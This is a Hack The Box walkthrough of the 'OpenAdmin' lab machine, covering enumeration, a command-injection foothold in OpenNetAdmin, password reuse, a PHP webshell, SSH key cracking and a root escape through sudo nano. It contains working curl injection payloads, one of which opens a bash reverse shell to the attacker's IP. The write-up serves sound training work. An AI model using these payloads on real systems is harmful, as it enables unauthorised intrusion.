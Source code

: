 ```yaml
---
title: "[HTB] Machine: OpenAdmin"
description: "[HTB] Machine: OpenAdmin"
date: 2023-06-26
menu:
  sidebar:
    name: "[HTB] Machine: OpenAdmin"
    identifier: htb-machine-openadmin
    parent: htb-machines-linux
    weight: 10
hero: images/openadmin.png
tags: ["HTB"]
---
```


# OpenAdmin
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.10.171                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 17:39 BST
Nmap scan report for 10.10.10.171 (10.10.10.171)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b98df85d17ef03dda48cdbc9200b754 (RSA)
|   256 dceb3dc944d118b122b4cfdebd6c7a54 (ECDSA)
|_  256 dcadca3c11315b6fe6a489347c9be550 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.34 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.10.171 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x html,txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.171
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2023/06/27 17:52:42 Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/music                (Status: 301) [Size: 312] [--> http://10.10.10.171/music/]
/artwork              (Status: 301) [Size: 314] [--> http://10.10.10.171/artwork/]
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
```
- Web server

![](./images/1.png)

- `/ona`

- If you click login on `/music` page, it will redirect you to `/ona` page

![](./images/2.png)

## Foothold
- `searchsploit`

![](./images/3.png)

- Check exploit 

![](./images/4.png)

- We can test it manually
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping"  http://10.10.10.171/ona/`

![](./images/5.png)

- Let's try reverse shell
  - `curl -s -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >%26 /dev/tcp/10.10.16.7/6666 0>%261'&xajaxargs[]=ping"  http://10.10.10.171/ona/`

![](./images/6.png)
![](./images/7.png)


## User 1
- Enumerating for privesc
  - Started from local directory
  - `grep -inRE "*passwd*" .` to search for config files with password

![](./images/8.png)
![](./images/9.png)

- Open `mysql`

![](./images/10.png)

- Before cracking let's try `su` for password reuse with `n1nj4W4rri0R!`
  - And it works for `jimmy`

![](./images/11.png)

## User 2
- We see a folder owned by `jimmy`

![](./images/12.png)

- We see the source files
  - Let's check open ports
    - Strange port `52846`
  - And if apache or nginx was running (`ona` was hosted by apache)
    - `internal.openadmin.htb` on port `52846`

![](./images/13.png)
![](./images/14.png)
![](./images/15.png)

- Let's configure port forwarding via SSH

![](./images/16.png)
![](./images/17.png)

### Webshell
- We can create webshell `php` file and access it

![](./images/18.png)
![](./images/19.png)

- Let's get reverse shell

![](./images/20.png)
![](./images/21.png)

### SSH
- If we read source code of internal we can see that after login we will get a joanna's key
  - And the creds for access are hardcoded

![](./images/22.png)
![](./images/23.png)
![](./images/24.png)

- I tried connecting with the key, but it was encrypted
  - So I used `john` to find a passphrase
  - `bloodninjas`

![](./images/25.png)

## Root
- Started with checking `sudo` rights

![](./images/26.png)

- `GTFOBins`

![](./images/27.png)

- Steps:
  - `sudo /bin/nano /opt/priv`
  - `CTRL + R`
  - `CTRL + X`
  - `reset; sh 1>&0 2>&0`
  - Rooted

![](./images/28.png)

